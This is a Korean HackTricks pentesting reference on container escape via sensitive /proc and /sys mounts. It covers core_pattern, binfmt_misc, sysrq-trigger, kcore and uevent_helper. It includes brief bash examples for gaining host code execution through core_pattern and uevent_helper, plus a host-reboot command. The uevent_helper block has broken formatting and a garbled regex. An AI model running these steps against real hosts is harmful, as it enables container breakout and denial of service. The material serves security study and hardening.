 # 민감한 마운트

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 팁을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 기여하세요.

</details>
{% endhint %}

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

`/proc` 및 `/sys`의 노출은 적절한 네임스페이스 격리 없이는 공격 표면 확대 및 정보 노출과 같은 중요한 보안 위험을 초래할 수 있습니다. 이러한 디렉토리에는 민감한 파일이 포함되어 있으며, 잘못 구성되거나 무단으로 액세스되면 컨테이너 탈출, 호스트 수정 또는 추가 공격을 돕는 정보 제공이 가능합니다. 예를 들어, `-v /proc:/host/proc`를 잘못 마운트하면 경로 기반의 특성으로 인해 AppArmor 보호를 우회할 수 있어 `/host/proc`가 보호되지 않게 됩니다.

**각 잠재적인 취약점에 대한 자세한 내용은** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**에서 찾을 수 있습니다.**

## procfs 취약점

### `/proc/sys`

이 디렉토리는 일반적으로 `sysctl(2)`를 통해 커널 변수를 수정할 수 있도록 허용하며, 관련 하위 디렉토리가 여러 개 있습니다:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html)에 설명되어 있음.
* 핵심 파일 생성 시 처음 128바이트를 인수로 사용하여 실행할 프로그램을 정의할 수 있습니다. 파일이 파이프 `|`로 시작하면 코드 실행이 가능합니다.
*   **테스트 및 악용 예시**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 쓰기 액세스 테스트
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 사용자 지정 핸들러 설정
sleep 5 && ./crash & # 핸들러 트리거
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 자세히 나와 있음.
* 커널 모듈 로더의 경로를 포함하며, 커널 모듈을 로드할 때 호출됩니다.
*   **액세스 확인 예시**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe 액세스 확인
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 언급되어 있음.
* OOM 조건이 발생할 때 커널이 패닉 또는 OOM 킬러를 호출하는 전역 플래그입니다.

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 따르면 파일 시스템에 대한 옵션 및 정보가 포함되어 있습니다.
* 쓰기 액세스는 호스트에 대한 다양한 서비스 거부 공격을 활성화할 수 있습니다.

#### **`/proc/sys/fs/binfmt_misc`**

* 매직 넘버에 따라 비네이티브 바이너리 형식에 대한 해석기를 등록할 수 있습니다.
* `/proc/sys/fs/binfmt_misc/register`가 쓰기 가능하면 권한 상승 또는 루트 쉘 액세스가 가능합니다.
* 관련 악용 및 설명:
* [binfmt\_misc를 통한 간단한 루트킷](https://github.com/toffan/binfmt\_misc)
* 상세한 튜토리얼: [비디오 링크](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### `/proc`의 기타 항목

#### **`/proc/config.gz`**

* `CONFIG_IKCONFIG_PROC`가 활성화되어 있으면 커널 구성을 노출할 수 있습니다.
* 실행 중인 커널의 취약점을 식별하는 데 유용합니다.

#### **`/proc/sysrq-trigger`**

* Sysrq 명령을 호출할 수 있어 즉시 시스템 재부팅이나 기타 중요한 작업을 유발할 수 있습니다.
*   **호스트 재부팅 예시**:

```bash
echo b > /proc/sysrq-trigger # 호스트 재부팅
```

#### **`/proc/kmsg`**

* 커널 링 버퍼 메시지를 노출합니다.
* 커널 악용, 주소 누출 및 민감한 시스템 정보 제공에 도움이 될 수 있습니다.

#### **`/proc/kallsyms`**

* 커널 내보낸 심볼과 그 주소를 나열합니다.
* 특히 KASLR을 극복하는 데 필수적인 커널 악용 개발에 중요합니다.
* 주소 정보는 `kptr_restrict`가 `1` 또는 `2`로 설정되어 제한됩니다.
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 자세한 내용이 있습니다.

#### **`/proc/[pid]/mem`**

* 커널 메모리 장치 `/dev/mem`과 상호 작용합니다.
* 역사적으로 권한 상승 공격에 취약했습니다.
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에서 자세한 내용을 확인할 수 있습니다.

#### **`/proc/kcore`**

* ELF 코어 형식으로 시스템의 물리적 메모리를 나타냅니다.
* 읽기는 호스트 시스템 및 다른 컨테이너의 메모리 내용을 노출할 수 있습니다.
* 큰 파일 크기는 읽기 문제나 소프트웨어 충돌을 유발할 수 있습니다.
* [2019년 /proc/kcore 덤프](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)에서 자세한 사용법을 확인할 수 있습니다.

#### **`/proc/kmem`**

* 커널 가상 메모리를 나타내는 `/dev/kmem`의 대체 인터페이스입니다.
* 읽기 및 쓰기를 허용하여 커널 메모리를 직접 수정할 수 있습니다.

#### **`/proc/mem`**

* 물리적 메모리를 나타내는 `/dev/mem`의 대체 인터페이스입니다.
* 읽기 및 쓰기를 허용하며, 모든 메모리의 수정에는 가상 주소를 물리 주소로 변환해야 합니다.

#### **`/proc/sched_debug`**

* PID 네임스페이스 보호를 우회하여 프로세스 스케줄링 정보를 반환합니다.
* 프로세스 이름, ID 및 cgroup 식별자를 노출합니다.

#### **`/proc/[pid]/mountinfo`**

* 프로세스의 마운트 네임스페이스에 대한 마운트 지점 정보를 제공합니다.
* 컨테이너 `rootfs` 또는 이미지의 위치를 노출합니다.

### `/sys` 취약점

#### **`/sys/kernel/uevent_helper`**

* 커널 장치 `uevent`를 처리하는 데 사용됩니다.
* `/sys/kernel/uevent_helper`에 쓰기하면 `uevent` 트리거 시 임의의 스크립트를 실행할 수 있습니다.
*   **악용 예시**: %%%bash

#### 페이로드 생성

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### 컨테이너용 OverlayFS 마운트에서 호스트 경로 찾기

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### 악의적인 헬퍼로 uevent\_helper 설정

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### uevent 트리거

echo change > /sys/class/mem/null/uevent

#### 출력 읽기

cat /output %%%
#### **`/sys/class/thermal`**

* 온도 설정을 제어하여 DoS 공격이나 물리적 손상을 유발할 수 있습니다.

#### **`/sys/kernel/vmcoreinfo`**

* 커널 주소를 노출하여 KASLR을 compromise할 수 있습니다.

#### **`/sys/kernel/security`**

* `securityfs` 인터페이스를 포함하며, AppArmor와 같은 Linux Security Modules의 구성을 허용합니다.
* 액세스 권한을 통해 컨테이너가 MAC 시스템을 비활성화할 수 있습니다.

#### **`/sys/firmware/efi/vars`** 와 **`/sys/firmware/efi/efivars`**

* NVRAM의 EFI 변수와 상호 작용하기 위한 인터페이스를 노출합니다.
* 잘못된 구성 또는 악용으로 인해 브릭된 노트북이나 부팅할 수 없는 호스트 머신으로 이어질 수 있습니다.

#### **`/sys/kernel/debug`**

* `debugfs`는 커널에 대한 "no rules" 디버깅 인터페이스를 제공합니다.
* 제한이 없는 성격으로 인한 보안 문제의 역사가 있습니다.

### 참고 자료

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
